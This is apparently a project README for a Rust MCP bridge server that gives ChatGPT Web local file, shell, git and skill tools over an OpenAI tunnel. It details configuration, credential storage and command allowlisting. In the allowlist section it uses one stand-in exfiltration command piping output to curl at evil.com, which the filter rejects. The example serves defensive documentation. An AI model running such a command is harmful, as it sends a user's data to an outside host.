

# Codex-free (rewritten to Rust)

*Codex Free, rewritten in Rust (but you still have to buy ChatGPT Plus)*

A local MCP bridge server that lets ChatGPT Web Pro call tools on your machine: read/write files, run shell commands, git operations, search. Codex Free is a faithful Rust port of the original Bun + TypeScript `codex-free`, built on **tokio + axum** and the official [`rmcp`](https://crates.io/crates/rmcp) SDK over Streamable HTTP. It can expose that local MCP endpoint through OpenAI's native [Secure MCP Tunnel](https://developers.openai.com/api/docs/guides/secure-mcp-tunnels), without opening an inbound port or publishing a general-purpose URL.

In native-tunnel mode, Codex Free listens only on `127.0.0.1`, protects the MCP endpoint with a random per-process bearer token, starts OpenAI's official runtime-only tunnel client, and supervises it for the lifetime of the server. The tunnel client makes outbound HTTPS requests to OpenAI and forwards tunnel traffic to the authenticated loopback MCP endpoint. A conventional externally managed tunnel remains available as an alternative.

The tool set covers the ones [Codex](https://github.com/openai/codex) gives its own agent — `apply_patch`, `exec_command`/`write_stdin`, `view_image`, `update_plan`, `clock_curr_time`/`clock_sleep` — so ChatGPT Web can work the way Codex does: patch files in place instead of rewriting them, drive interactive and long-running processes, and keep a plan across a task. It carries the project's `AGENTS.md` and Codex's own agent brief, so the client is told how to behave and not just what it can call. It bounds what a tool call can return and keeps a plan and notes on disk across conversations, addressing the one thing Codex never had to solve — a context window far smaller than the task. And it loads Codex's skills: a `SKILL.md` in the repo or your home directory teaches the client how *you* do a recurring task, and only the ones that apply are ever read. Schemas and prompt are ported from the Codex source, not reimplemented from guesswork.

Beyond the port, Codex Free can **aggregate other MCP servers** — connecting to your local stdio MCP servers and re-exposing their tools through its own endpoint, so the ChatGPT-side agent can call them too.

## Architecture



Dotted edges are conditional: `set_project_root` appears only in [multi-project mode](#multi-project-mode) and binds this conversation's project root, and the aggregator [auto-imports](#automatic-discovery-from-codex) the stdio MCP servers configured in Codex's own `config.toml` on top of any declared in `codex.config.json`.

## Quick start

### Interactive setup (recommended for a first install)

Run the guided setup from an installed binary:

```bash
codex-free quickstart
```

Or run it directly from a source checkout:

```bash
cargo run --release -- quickstart
```

The wizard asks which project directory ChatGPT may access and whether that
directory is one project or a multi-project access root. It then walks through
creating an OpenAI Secure MCP Tunnel, entering the tunnel ID and runtime API key,
and creating the matching ChatGPT developer-mode connector. The relevant OpenAI
and ChatGPT links are printed together with the exact connection values to use.

The runtime key is entered without terminal echo and stored in a dedicated
per-tunnel file under `~/.codex-free/openai-tunnel/credentials/`. On Unix, the
wizard restricts the credential directory and file to the current user.
`codex.config.json` receives only a `file:` reference, and unrelated existing JSON
settings are preserved. At the end, the wizard can start Codex Free immediately
so ChatGPT can scan the live connector. Keep that process running while using the
connector.

Use `codex-free quickstart --config /path/to/codex.config.json` to update a
different config file, or `--work-dir /path/to/project` to change the directory
initially shown by the wizard.

### Manual native OpenAI tunnel setup

1. Create or obtain a tunnel ID in [OpenAI Platform tunnel settings](https://platform.openai.com/settings/organization/tunnels).
2. Create a restricted [runtime API key](https://platform.openai.com/settings/organization/api-keys) whose principal has Tunnels **Read** + **Use** for that tunnel. Keep tunnel-management/admin credentials separate.
3. Add the tunnel to `codex.config.json`:

   ```json
   {
     "openaiTunnel": {
       "tunnelId": "tunnel_0123456789abcdef0123456789abcdef",
       "apiKeyRef": "env:CONTROL_PLANE_API_KEY"
     }
   }
   ```

4. Put the runtime key in the referenced environment variable and start Codex Free:

   ```bash
   export CONTROL_PLANE_API_KEY='...'
   cargo run --release -- --work-dir /path/to/your/project
   ```

On first use, Codex Free downloads the pinned runtime-only build of OpenAI's official [`tunnel-client`](https://github.com/openai/tunnel-client), verifies the archive against the per-platform SHA-256 embedded in this Codex Free build, and installs it under `~/.codex-free/openai-tunnel/`. Codex Free reports ready only after the runtime's `/readyz` check succeeds and its metrics show a successful control-plane poll. The runtime-only binary exposes loopback `/healthz`, `/readyz`, and `/metrics` endpoints; it intentionally does not include the full client's admin UI.

To use a preinstalled official client instead, set `openaiTunnel.clientPath` or pass `--openai-tunnel-client /path/to/tunnel-client-runtime`. Codex Free still checks the binary's version surface and required flags before starting it.

### Local endpoint or externally managed tunnel

```bash
cargo run --release -- --work-dir /path/to/your/project
```

Without `openaiTunnel`, the server keeps its legacy behavior: it listens on `0.0.0.0:3000`, serves MCP at `/mcp`, and serves `/health`. This is appropriate for local clients or an explicitly configured reverse proxy/tunnel. Do not publish this mode without authentication and network-level access controls.

To reuse one server across several independent projects, point it at their common parent and enable multi-project mode:

```bash
cargo run --release -- --work-dir /path/to/projects --multi-project
```

Here `--work-dir` is an **access root**, not the active project. In ChatGPT, `set_project_root` binds the current conversation to one existing directory beneath that root. Codex Free keys the binding from ChatGPT's `_meta["openai/session"]` conversation identifier and persists it outside the repository, so later turns in the same chat recover the project after an MCP reconnect or codex-free restart. A new chat gets a new binding and an existing chat cannot switch projects. Clients that do not provide `openai/session` fall back to a one-time MCP transport-session binding and must select again after reconnecting.

To build a standalone binary:

```bash
cargo build --release
./target/release/codex-free --work-dir /path/to/your/project
```

### Prebuilt binaries

Each release ships a compiled binary per platform — `windows-x64`, `linux-x64`, `linux-arm64`, `darwin-x64` and `darwin-arm64`. Download the archive for your OS/arch, unpack it, and run `codex-free --work-dir …`. These are native builds, so there is no AVX2/baseline caveat: the binary runs on any CPU of its architecture.

## CLI

### Commands

| Command | Description |
|---------|-------------|
| `quickstart` | Interactively configure the project scope, native OpenAI tunnel credentials, JSON config, and ChatGPT developer-mode connector; optionally start the server when setup is complete |

`quickstart` accepts `--config <PATH>` (default `./codex.config.json`) and
`--work-dir <DIR>` as the initial project-directory prompt value.

### Server flags

| Flag | Required | Default | Description |
|------|----------|---------|-------------|
| `--work-dir` | Yes | - | Project directory, or the project access root with `--multi-project` |
| `--multi-project` | No | Disabled | Let each ChatGPT conversation bind once to a project beneath `--work-dir`; other clients fall back to transport-session binding |
| `--port` | No | `3000` | Server port |
| `--api-key` | No | - | Bearer token for auth |
| `--config` | No | `./codex.config.json` | Config file path (tolerated if missing) |
| `--openai-tunnel-id` | No | - | Existing OpenAI Secure MCP Tunnel ID; enables native tunnel mode |
| `--openai-tunnel-api-key-ref` | No | `env:CONTROL_PLANE_API_KEY` | Runtime key reference in `env:NAME` or `file:/path` form |
| `--openai-tunnel-client` | No | managed pinned runtime | Explicit `tunnel-client` or `tunnel-client-runtime` binary |
| `--openai-tunnel-organization-id` | No | - | Optional OpenAI organization ID sent by the tunnel client |

## Tools

Structured primitives — cheaper and safer than shelling out for the same job, and identical on Windows and POSIX:

| Tool | Description |
|------|-------------|
| `read_file` | Read a file's contents, a bounded window at a time, with optional line offset/limit |
| `write_file` | Write content to a file, creating parent directories if needed |
| `run_command` | Execute a command in the work directory (allowlist-restricted) |
| `git_status` | Show git status, parsed into changed files with status codes |
| `git_push` | Push commits to a remote |
| `git_commit` | Create a commit, optionally staging all tracked changes |
| `git_log` | Show recent commit history |
| `glob` | Find files matching a glob pattern (`.gitignore`-aware) |
| `grep` | Search file contents by regex, with optional context lines (`.gitignore`-aware) |
| `list_directory` | List files and directories with name, type, and size |
| `tree` | Print directory tree as ASCII art |

Ported from Codex's own agent tools:

| Tool | Codex name | Description |
|------|------------|-------------|
| `apply_patch` | `apply_patch` | Edit files with a context patch instead of rewriting them |
| `exec_command` | `exec_command` | Run a shell command; returns output, or a session id if it is still running |
| `write_stdin` | `write_stdin` | Write to (or poll) a running `exec_command` session |
| `view_image` | `view_image` | Load a local image file for visual inspection |
| `update_plan` | `update_plan` | Track a multi-step plan; saved to disk so a later conversation can pick it up |
| `clock_curr_time` | `clock.curr_time` | Current time in UTC |
| `clock_sleep` | `clock.sleep` | Pause for a given duration |
| `skills_list` | `skills.list` | List the `SKILL.md` skills installed for this project and this user |
| `skills_read` | `skills.read` | Read a skill's instructions, or another file in its package |

Codex's dotted names are flattened to underscores because MCP tool names must match `^[a-zA-Z0-9_-]{1,64}$`.

Five always-on tools have no Codex counterpart:

| Tool | Description |
|------|-------------|
| `get_agent_brief` | Return the whole operating brief — behaviour, environment, saved state and project rules — in one call |
| `get_environment` | Report the OS, the shell `exec_command` uses, the work directory, and what the policy allows |
| `get_project_doc` | Read the project's `AGENTS.md` instructions |
| `remember` | Save one durable note about the task under a short key |
| `recall` | Return the plan and notes saved by earlier turns or earlier conversations |

Multi-project mode adds one project-control tool:

| Tool | Description |
|------|-------------|
| `set_project_root` | Bind the current ChatGPT conversation to one existing directory beneath the configured access root; repeated selection of the same canonical directory is idempotent, but switching is rejected. Without ChatGPT conversation metadata, the binding lasts for the MCP transport session |

Codex needs the first three for none of these reasons: it puts its agent brief in the system prompt, the OS and shell in an `<environment_context>` message, and `AGENTS.md` straight into the prompt, all before the first turn. An MCP server has none of those channels — it can only expose tools — so the same facts are tool calls here as well as part of the server's `instructions`. It needs `remember` and `recall` for the opposite reason: its context is large and its session state lives in the CLI process, whereas the client here is a chat window that loses the conversation. See [Context and memory](#context-and-memory), [Acting as a Codex agent](#acting-as-a-codex-agent), [Shells and the host](#shells-and-the-host), [AGENTS.md](#agentsmd) and [Skills](#skills).

That is 25 native tools in the default single-project mode and 26 in multi-project mode. When [MCP bridging](#bridging-other-mcp-servers) is configured, the tools of your other MCP servers are re-exposed here too, on top of these.

Two deliberate differences from Codex:

- **`apply_patch` takes a JSON string.** In Codex it is a *freeform* tool whose entire body is the raw patch. MCP has no freeform tools, so the patch goes in an `input` string parameter. The patch format itself is unchanged.
- **`exec_command` runs with plain pipes, not a PTY.** Codex's own `tty` parameter documents pipes as the default, so ordinary commands behave the same; `tty: true` is rejected rather than silently ignored. Programs that only enable interactive behaviour when attached to a terminal will act as if piped.

`clock_sleep` also caps at 5 minutes rather than Codex's 12 hours — a longer wait would outlive the HTTP request through the tunnel.

Every tool that advertises an `outputSchema` also returns `structuredContent` matching it, as the MCP spec asks. `exec_command` and `write_stdin` return Codex's unified-exec object, `clock_curr_time` returns `{ current_time }`, `get_environment` returns the environment object, `get_project_doc` returns `{ files, content }` and `skills_list` returns `{ skills, content }`; the rest return `{ content: <text> }`, which the server derives from the text blocks so handlers don't repeat it.

All project-scoped paths are resolved relative to the active project root: `--work-dir` in single-project mode, or the root selected for the current ChatGPT conversation in multi-project mode. Non-ChatGPT clients use the root selected for their current MCP transport session.

## Config file

`codex.config.json` in the project root, or pass a custom path with `--config`. Every field is optional and uses the same camelCase names as the original TypeScript project, so an existing config keeps working. A missing config file is tolerated — the built-in defaults are used and the startup banner says so.

```json
{
  "multiProject": false,
  "allowedCommands": ["bun", "npm", "npx", "node", "git", "python", "pip", "cargo", "make"],
  "port": 3000,
  "tree": {
    "defaultDepth": 3,
    "ignore": ["node_modules", ".git", "dist", ".next", "__pycache__", ".venv", "venv"]
  },
  "ignore": {
    "useGitignore": true,
    "useDefaultPatterns": true,
    "customPatterns": []
  },
  "command": {
    "defaultTimeout": 30000,
    "maxTimeout": 120000
  },
  "exec": {
    "mode": "allowlist",
    "extraAllowedCommands": [
      "ls", "cat", "grep", "find", "head", "tail", "wc", "echo", "pwd",
      "which", "rg", "sed", "awk", "sort", "uniq", "diff", "true", "false"
    ],
    "maxSessions": 8
  },
  "projectDoc": {
    "maxBytes": 32768,
    "fallbackFilenames": [],
    "rootMarkers": [".git"]
  },
  "output": {
    "maxFileLines": 1000,
    "maxFileBytes": 131072,
    "maxEntries": 500,
    "maxTreeNodes": 1000
  },
  "memory": {
    "enabled": true,
    "maxBytes": 16384
  },
  "skills": {
    "enabled": true,
    "includePlugins": true
  },
  "codexMcp": {
    "enabled": true
  },
  "openaiTunnel": {
    "tunnelId": "tunnel_0123456789abcdef0123456789abcdef",
    "apiKeyRef": "env:CONTROL_PLANE_API_KEY"
  },
  "allowedHosts": [],
  "mcpServers": {}
}
```

CLI flags override values from the config file.

The `openaiTunnel` block enables OpenAI's native outbound tunnel:

| Key | Default | Description |
|-----|---------|-------------|
| `tunnelId` | required | Existing `tunnel_…` identifier from OpenAI Platform |
| `apiKeyRef` | `"env:CONTROL_PLANE_API_KEY"` | Runtime API-key reference. Only `env:NAME` and `file:/path` are accepted; literal keys are rejected |
| `clientPath` | verified managed runtime | Explicit official `tunnel-client` or `tunnel-client-runtime` binary. Relative paths resolve from the launch directory |
| `organizationId` | - | Optional organization ID passed as `OpenAI-Organization` by the official client |

The `quickstart` command writes its runtime key to
`~/.codex-free/openai-tunnel/credentials/<tunnel-id>.key` and sets `apiKeyRef` to
that absolute `file:` path. It never writes the key itself into
`codex.config.json`; on Unix, the credential directory is mode `0700` and the key
file is mode `0600`.

Native mode deliberately cannot be combined with a caller-supplied `apiKey` / `--api-key`: Codex Free generates a high-entropy bearer token for the loopback MCP hop and injects it into the tunnel runtime through static MCP and discovery headers. Host validation is forced to loopback authorities and permissive browser CORS is disabled.

The OpenAI runtime key authenticates the outbound control-plane connection. Codex Free resolves the configured `env:NAME` or `file:/path` reference once, passes the value to the tunnel child under a private synthetic environment name, and removes the original environment variable from model-launched commands and bridged MCP children. The tunnel runtime starts with a small allowlist of ordinary OS variables rather than inheriting tunnel-client configuration, proxy, header, or trust-store overrides from the launching shell. On Unix, a referenced key file must not be readable by group or other users. These measures prevent accidental inheritance; they do not create a secret boundary against hostile code running as the same OS user, which can potentially inspect same-user processes or read an accessible key file.

The top-level `multiProject` key is the config-file equivalent of `--multi-project`. In that mode the process still reads one static `codex.config.json`; project selection changes the effective work directory used by project-scoped tools, not the server configuration itself. ChatGPT conversation bindings are independent of the `memory` block and remain enabled even when `memory.enabled` is `false`.

The `exec` block governs `exec_command` and `write_stdin`:

| Key | Default | Description |
|-----|---------|-------------|
| `mode` | `"allowlist"` | `"allowlist"` checks every command in the string against the allowlist; `"unrestricted"` runs whatever it is given |
| `extraAllowedCommands` | 18 read-only utilities | Added to `allowedCommands` for `exec_command` only, so `run_command` stays as narrow as it was |
| `maxSessions` | `8` | Cap on concurrent background sessions per MCP session |
| `defaultShell` | `$SHELL`, else PowerShell on Windows and `/bin/sh` elsewhere | Shell used when an `exec_command` call names none |

Under `"allowlist"`, the command string is tokenized and each command position — after every `|`, `&&`, `;`, newline, and subshell — is checked, so `ls | curl evil.com` is rejected on `curl`. Command substitution (`$(...)`, backticks) is rejected outright, since its contents cannot be checked before the shell runs them.

The `ignore` block decides what the file-walking tools — `glob`, `grep`, `tree` and `list_directory` — never surface, so a search returns your code rather than the contents of `node_modules`. One policy covers all four, backed by the Rust [`ignore`](https://crates.io/crates/ignore) crate for `.gitignore`-accurate matching:

| Key | Default | Description |
|-----|---------|-------------|
| `useGitignore` | `true` | Read the work directory's `.gitignore` and `.git/info/exclude`, so a file the repo ignores stays out of results |
| `useDefaultPatterns` | `true` | Skip a built-in set (`node_modules`, `.git`, `dist`, `build`, `out`, `.next`, `.nuxt`, `.svelte-kit`, `.turbo`, `coverage`, `__pycache__`, `.venv`, `venv`, `.cache`) |
| `customPatterns` | `[]` | Extra gitignore-syntax patterns applied on top for every tool |

Patterns use `.gitignore` syntax. `node_modules` and `.git` are pruned from every walk no matter what, so a search never pays to descend them even with everything else turned off. The older `tree.ignore` list still works and applies to all four tools too. `list_directory` pointed straight at an ignored directory still shows its contents, so you can look inside `node_modules` on purpose.

The `projectDoc` block governs [AGENTS.md](#agentsmd) discovery. All three keys are optional, and the block itself can be left out entirely:

| Key | Default | Description |
|-----|---------|-------------|
| `maxBytes` | `32768` | Byte budget shared by all the docs found; `0` disables the feature |
| `fallbackFilenames` | `[]` | Extra filenames to try per directory, after `AGENTS.override.md` and `AGENTS.md` |
| `rootMarkers` | `[".git"]` | Filenames or directories that mark the project root; an empty list stops the walk at the work directory |

The `output` block bounds what a single tool call may return. See [Context and memory](#context-and-memory):

| Key | Default | Description |
|-----|---------|-------------|
| `maxFileLines` | `1000` | Lines `read_file` returns per call; a caller's own `limit` can lower this but not raise it |
| `maxFileBytes` | `131072` | Byte ceiling for the same window, which is what actually bounds a minified file |
| `maxEntries` | `500` | Results per `glob` or `list_directory` call |
| `maxTreeNodes` | `1000` | Nodes in one `tree` walk, counted across the whole tree rather than per directory |

The `memory` block governs `remember`, `recall` and the plan `update_plan` saves:

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | `false` turns persistence off entirely; nothing is read or written |
| `dir` | `~/.codex-free/projects/<name>-<hash of work-dir>` | Where the state file lives. Outside the repository by default. In multi-project mode, an explicit `dir` is treated as a base directory and each selected project gets its own hashed child directory |
| `maxBytes` | `16384` | Budget for all notes together. A note over it is rejected, not silently evicted |

The `skills` block governs `SKILL.md` discovery. See [Skills](#skills):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | `false` searches nothing; both tools say so and the catalogue leaves `instructions` |
| `dirs` | `~/.agents/skills`, `~/.codex/skills`, `~/.claude/skills` | User-scope directories, **replacing** the home-directory defaults. Relative paths resolve against the work directory; project-scope roots are unaffected |
| `includePlugins` | `true` | Discover installed Claude Code plugin skills. Setting `dirs` disables this unless you set it back to `true` |

The `codexMcp` block controls [automatic import of MCP servers configured in Codex](#bridging-other-mcp-servers):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | Read the user-level Codex `config.toml` and merge its MCP servers into `mcpServers`; `false` disables all Codex-config discovery |

The `openaiTunnel` block, `allowedHosts` array, and `mcpServers` map are covered under [Native OpenAI tunnel](#native-openai-tunnel-recommended), [Host allowlist](#host-allowlist), and [Bridging other MCP servers](#bridging-other-mcp-servers).

## Multi-project mode

By default the server is pinned to one project: `--work-dir` *is* the project root, and every project-scoped tool resolves against it. Multi-project mode turns `--work-dir` into an *access root* instead — a directory beneath which each conversation selects its own project — so a single running server can serve many repositories without a process per repo.

Enable it with `--multi-project` or `"multiProject": true` (see [CLI flags](#cli-flags) and [Config file](#config-file)). One static `codex.config.json` is still read once at startup; selection changes only the effective work directory the project tools use, never the server configuration itself.

Each conversation binds a project exactly once, through the [`set_project_root`](#tools) tool:

- The path is relative to the access root or absolute, but its canonical target must be an existing directory inside that root. Traversal (`..`) and symlink escapes are rejected *after* canonicalisation, so a link pointing outside the root cannot smuggle a selection past the check.
- The binding belongs to the **ChatGPT conversation**, keyed from `_meta["openai/session"]` (the raw identifier is hashed, never stored), so simultaneous chats can hold different projects and a later turn recovers its own root after MCP reconnects or a server restart. A client that sends no ChatGPT conversation metadata falls back to a binding that lasts only the current MCP transport session.
- A conversation cannot switch roots once bound — start another chat for a different project. Re-selecting the same canonical path is idempotent.
- Until a root is selected, project-scoped tools are unavailable and say why; `set_project_root` is the one project tool always present in this mode.

Per-conversation separation extends to saved state: with an explicit `memory.dir`, each selected project gets its own hashed child directory (see the [`memory` block](#config-file)), and conversation bindings stay enabled even when `memory.enabled` is `false`. The end-to-end onboarding flow — select, then request the brief — is in [Starting a chat](#starting-a-chat).

To clear a stray binding, delete its file under `~/.codex-free/conversation-projects/`; there is no tool to re-point an already-bound conversation.

## Context and memory

Codex runs against a large context window and keeps its session in a process you control. ChatGPT Web does neither: the window is smaller than most real tasks, and when it fills — or when you open a new chat — the plan and everything learned along the way are gone, with no sign to the model that they ever existed. Codex Free attacks both halves of that.

**Spend the window on less.** Every tool that could return an unbounded amount of text stops at a budget and says so on its last line, naming the argument that continues from where it stopped:

```
(showing lines 1-1000 of 4820 — call again with offset=1000 for the rest)
```

That line matters as much as the cap. Silent truncation reads as "that was the whole file", which is worse than no cap at all. `read_file` has a byte ceiling as well as a line one, because a minified bundle is a single line several megabytes long that a line cap alone would hand back in full. `exec_command` and `grep` are bounded too, ported that way from Codex.

**Keep what would be expensive to rediscover.** `remember` writes one keyed note; `recall` hands back the notes and the current plan. `update_plan` persists too, so the plan survives the conversation that made it. Writing to a key that exists replaces it, and an empty value deletes it — a keyed store stays current where an append log accumulates contradictions until it is worthless.

Task state lives in `~/.codex-free/projects/<name>-<hash>/memory.json`, keyed by the absolute active project root. Nothing is written into the repository you pointed the server at, and two checkouts of the same repo do not share notes. Multi-project conversations therefore share task state only when they select the same canonical project root.

ChatGPT project bindings live separately under `~/.codex-free/conversation-projects/<access-root-hash>/<conversation-hash>.json`. The raw `openai/session` value is never written to disk; only its SHA-256-derived key is used as the filename. Each small record contains the canonical access root and selected project root. Delete this directory to forget all conversation bindings. A missing or stale project fails closed rather than silently rebinding the conversation to another directory.

In single-project mode, `instructions` is rebuilt for every MCP session, so a new conversation opens with the saved plan and notes already in front of it, under a `## Saved state` heading between the environment and `AGENTS.md`. In multi-project mode the initialize-time instructions deliberately remain project-neutral: ChatGPT supplies its stable conversation identifier on tool calls, after the MCP initialize exchange. Calling `get_agent_brief` restores an existing conversation binding automatically; for a new conversation it reports that `set_project_root` is required. After binding, `get_agent_brief` returns the environment, saved state, skills, and `AGENTS.md` for the selected project. If the client ignores `instructions`, one `recall` gets the same saved state after selection.

The division of labour is worth keeping straight: `AGENTS.md` is what is true of the **project** and belongs in the repo; notes are what is true of the **task in flight** and belong here.

## Acting as a Codex agent

A tool list says what a model *can* do; it says nothing about how a careful engineer uses it. Codex closes that gap with a system prompt, and so does this bridge — the behavioural half of `codex-rs/core/gpt-5.2-codex_prompt.md` is ported into the server's `instructions`.

That brief is what stops the client rewriting a file it never read, reverting your uncommitted work, reaching for `git reset --hard`, or making a one-step plan. It carries Codex's editing constraints (ASCII by default, comments only where they earn their place, `apply_patch` over rewrites, and the dirty-worktree rules in full), its planning rules, its code-review posture, and its habit of reporting back concisely without pasting files you already have on disk.

The `initialize` response layers Codex's four in Codex's own order, each outranking the one above it, plus one Codex has no need for:

1. **The agent brief** — how to behave.
2. **The environment** — OS, shell, work directory, command policy.
3. **Saved state** — the plan and notes left by earlier work, when there are any. See [Context and memory](#context-and-memory).
4. **The skill catalogue** — what this project and this user already know how to do, when any is installed. See [Skills](#skills).
5. **`AGENTS.md`** — the project speaking for itself, behind the `--- project-doc ---` marker.

Three parts of Codex's prompt are deliberately dropped. Its `rg` preference is redundant here, since `grep` and `glob` are tools that behave the same on every OS. Its final-answer style rules and clickable file-reference syntax both exist to drive a terminal renderer, and an MCP client renders markdown — importing them would produce CLI-flavoured output in a chat window. What those sections were *for* — brevity, not dumping files, relaying output the user cannot see — is kept.

### Starting a chat

`instructions` is the proper channel, but no client is obliged to show it to its model, and ChatGPT Web is not reliable about it. `get_agent_brief` returns the identical string, so one line is enough to onboard a conversation:

```
Call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

Everything else — the shell you're on, the allowlist, your repo's `AGENTS.md` — arrives with that one call. If a chat starts drifting back into generic-assistant behaviour, asking for the brief again re-anchors it.

For a new chat in multi-project mode, select before requesting the brief:

```
Call set_project_root with path "my-project", then call get_agent_brief and follow it for the rest of this chat.

Task: <what you want done>
```

The path may be relative to the configured access root or absolute, but its canonical target must be an existing directory inside that root. The binding belongs to the ChatGPT conversation, not to the current HTTP/MCP transport, so simultaneous chats may select different projects and later turns recover their respective project roots after reconnects or server restarts. A conversation cannot switch roots after binding; start another chat for another project. Calling `set_project_root` again with the same canonical path is harmless.

On a later turn in an already-bound chat, the path does not need to be repeated:

```
Call get_agent_brief and follow it for the rest of this task.

Task: <what you want done>
```

Only project identity is conversation-persistent. A live `exec_command` process and its numeric `session_id` remain tied to the current MCP transport and are deliberately discarded when that transport closes; stale process handles are not resurrected on a later follow-up.

## Shells and the host

Windows, macOS and Linux are all supported natively; there is no WSL or POSIX-emulation layer in between. Which shell runs is decided by name, not by host platform, the same way Codex's `Shell::derive_exec_args` does it:

| Shell | Invoked as |
|-------|------------|
| `sh`, `bash`, `zsh`, anything else | `<shell> -c "<cmd>"` |
| `powershell`, `pwsh` | `<shell> -NoProfile -Command "<cmd>"` |
| `cmd` | `cmd /c "<cmd>"` |

The default comes from `$SHELL` on every platform, so starting the server from Git Bash on Windows gets bash — with real `ls -la`, pipes and `$VAR` — rather than PowerShell. Set `exec.defaultShell` to override, or pass `shell` on an individual `exec_command` call.

Two Windows-specific details are handled: `powershell -Command` collapses every non-zero child exit code to `1`, so commands are wrapped to re-raise `$LASTEXITCODE`; and `exec_command`'s description gains Codex's PowerShell rules (`-LiteralPath` over `-Path`, `-WindowStyle Hidden`) when the server runs there.

Because the resolved shell decides what a command should even look like, it is published three ways — a client only has to read one of them:

- **`instructions`** in the `initialize` response, as the Environment section of the [agent brief](#acting-as-a-codex-agent).
- **`exec_command`'s description**, which names the actual shell binary and its syntax family.
- **`get_environment`**, for clients that read neither.

## AGENTS.md

A project's `AGENTS.md` is how it tells an agent its own conventions — which test command to run, which files not to touch, how commits should look. Codex reads it before the first turn; so does this bridge, using the same algorithm as `codex-rs/core/src/agents_md.rs`.

In single-project mode, discovery walks up from `--work-dir` to the nearest directory holding a **root marker** (`.git` by default), then collects **one doc per directory on the way back down**, so a monorepo's root conventions arrive before the ones belonging to the subdirectory you pointed the server at. In multi-project mode the selected directory is treated as the exact project root and discovery never reads an access-root parent, preventing instructions from one sibling project or the common parent from leaking into another session. In each directory considered, `AGENTS.override.md` wins over `AGENTS.md`, which wins over anything in `projectDoc.fallbackFilenames`. The files are concatenated outermost-first under a **shared 32 KiB budget**, counted in bytes rather than characters; a file that runs past what is left is cut there and reported as truncated, and whitespace-only files are skipped without spending any of it. If no marker is found anywhere above in single-project mode, only the work directory itself is checked.

Like the environment, the result is published more than one way:

- **`instructions`** carries the doc inline, behind Codex's own `--- project-doc ---` separator. Everything past that marker is the project speaking, and it outranks the [agent brief](#acting-as-a-codex-agent) above it.
- **`get_project_doc`** returns the identical text for clients that never read `instructions`, along with the absolute path of every file it came from and whether each was truncated.

Instructions are built per MCP session, so editing `AGENTS.md` takes effect on the next connection without restarting the server.

## Skills

`AGENTS.md` says what is true of the project always. A **skill** says how to do one recurring task well — cut a release, review a PR the way this team reviews PRs, debug the flaky suite — and is only read when that task comes up. Codex has had them since its extension crate landed; Codex Free ports the format and the discovery, from `codex-rs/ext/skills` and `codex-rs/skills`.

A skill is a directory holding a `SKILL.md` whose YAML frontmatter names it and says when it applies:

```
.agents/skills/
└── release/
    ├── SKILL.md
    ├── references/versioning.md
    └── scripts/tag.sh
```

```markdown
---
name: release
description: Cut and publish a release of this project
---

1. Check `cargo test` and `cargo clippy` are clean.
2. Bump the version in `Cargo.toml`.
3. Run `scripts/tag.sh`; see `references/versioning.md` for what the tag must look like.
```

`description` is required — it is the only thing the model sees before deciding whether the skill is worth reading. `name` defaults to the directory name. `metadata.short-description` is optional. A skill whose frontmatter cannot be used is reported by `skills_list` rather than silently dropped, because the author meant it to be there.

**Where they are found**, in precedence order:

| Scope | Directories |
|-------|-------------|
| `repo` | `.agents/skills`, `.codex/skills` and `.claude/skills`, in every directory from the project root down to the active work directory; in multi-project mode the selected directory is the exact project root |
| `user` | `~/.agents/skills`, `~/.codex/skills` and `~/.claude/skills`, or whatever `skills.dirs` names instead |
| `plugin` | Installed **Claude Code plugin** skills under `~/.claude/plugins/cache/<marketplace>/<plugin>/<version>/skills/*` |

Repo skills come first, so a project decides how a name behaves inside it; a personal skill of the same name is shadowed and `skills_list` says so rather than merging the two.

**Claude Code plugins.** Codex Free also discovers skills bundled with your installed Claude Code plugins, namespaced `<plugin>:<skill>` (e.g. `idasql:decompiler`) so they never collide with your own. The highest installed version of each plugin is used. Turn this off with `"skills": { "includePlugins": false }`. Setting `skills.dirs` overrides the standalone roots and, by default, disables plugin discovery too — set `includePlugins: true` alongside `dirs` to keep it.

